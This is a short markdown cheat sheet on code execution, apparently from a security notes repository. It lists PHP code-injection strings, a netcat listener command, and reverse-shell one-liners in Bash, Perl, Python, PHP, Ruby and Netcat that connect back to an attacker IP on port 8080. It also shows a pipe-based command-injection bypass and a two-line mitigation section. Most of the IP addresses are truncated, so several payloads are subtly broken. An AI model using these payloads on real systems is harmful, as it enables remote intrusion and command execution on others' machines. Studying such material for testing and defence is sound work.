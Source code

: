 # Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Exploit (Reverse-shell)
### Attacker Listening
```cmd
nc -vv -l -p 8080
```

### Payloads
- BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
- PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```

## Bypass
- Use ```|``` between two code
  - ```10.20.14.208 | pwd```

## Mitigation
- Don't use dangerous funtions
- Filter use input before execution
